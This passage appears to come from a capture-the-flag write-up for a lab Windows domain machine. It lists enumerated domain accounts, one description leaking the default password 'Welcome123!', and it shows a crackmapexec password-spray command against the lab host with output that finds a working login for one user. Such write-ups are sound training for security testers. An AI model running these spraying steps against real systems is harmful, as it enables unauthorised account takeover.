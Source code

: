     index: 0xfbd RID: 0x1f5 acb: 0x00000215 Account: Guest	Name: (null)	Desc: Built-in account for guest access to the computer/domain
    index: 0x10b6 RID: 0x19d0 acb: 0x00000010 Account: gustavo	Name: (null)	Desc: (null)
    index: 0xff4 RID: 0x1f6 acb: 0x00000011 Account: krbtgt	Name: (null)	Desc: Key Distribution Center Service Account
    index: 0x10b1 RID: 0x19cb acb: 0x00000010 Account: marcus	Name: (null)	Desc: (null)
    index: 0x10a9 RID: 0x457 acb: 0x00000210 Account: marko	Name: Marko Novak	Desc: Account created. Password set to Welcome123!
    index: 0x10c0 RID: 0x2775 acb: 0x00000010 Account: melanie	Name: (null)	Desc: (null)
    index: 0x10c3 RID: 0x2778 acb: 0x00000010 Account: naoki	Name: (null)	Desc: (null)
    index: 0x10ba RID: 0x19d4 acb: 0x00000010 Account: paulo	Name: (null)	Desc: (null)
    index: 0x10be RID: 0x19d8 acb: 0x00000010 Account: per	Name: (null)	Desc: (null)
    index: 0x10a3 RID: 0x451 acb: 0x00000210 Account: ryan	Name: Ryan Bertrand	Desc: (null)
    index: 0x10b2 RID: 0x19cc acb: 0x00000010 Account: sally	Name: (null)	Desc: (null)
    index: 0x10c2 RID: 0x2777 acb: 0x00000010 Account: simon	Name: (null)	Desc: (null)
    index: 0x10bb RID: 0x19d5 acb: 0x00000010 Account: steve	Name: (null)	Desc: (null)
    index: 0x10b8 RID: 0x19d2 acb: 0x00000010 Account: stevie	Name: (null)	Desc: (null)
    index: 0x10af RID: 0x19c9 acb: 0x00000010 Account: sunita	Name: (null)	Desc: (null)
    index: 0x10b7 RID: 0x19d1 acb: 0x00000010 Account: ulf	Name: (null)	Desc: (null)
    index: 0x10c1 RID: 0x2776 acb: 0x00000010 Account: zach	Name: (null)	Desc: (null)

The creds doesn't work and doesn't allow to access the SMB share. We put all
users in a file `users.txt` and then we use
[crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec) to spray the
password against all accounts. The `melanie` account is using the password!

    :::text
    crackmapexec smb 10.10.10.169 -u users.txt -p 'Welcome123!'
    CME          10.10.10.169:445 RESOLUTE        [*] Windows 10.0 Build 14393 (name:RESOLUTE) (domain:MEGABANK)
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\Administrator:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\Guest:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\krbtgt:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\DefaultAccount:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\ryan:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\marko:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\sunita:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\abigail:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\marcus:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\sally:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\fred:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\angela:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\felicia:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\gustavo:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\ulf:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\stevie:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\claire:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\paulo:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\steve:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\annette:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\annika:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\per:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\claude:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [+] MEGABANK\melanie:Welcome123!
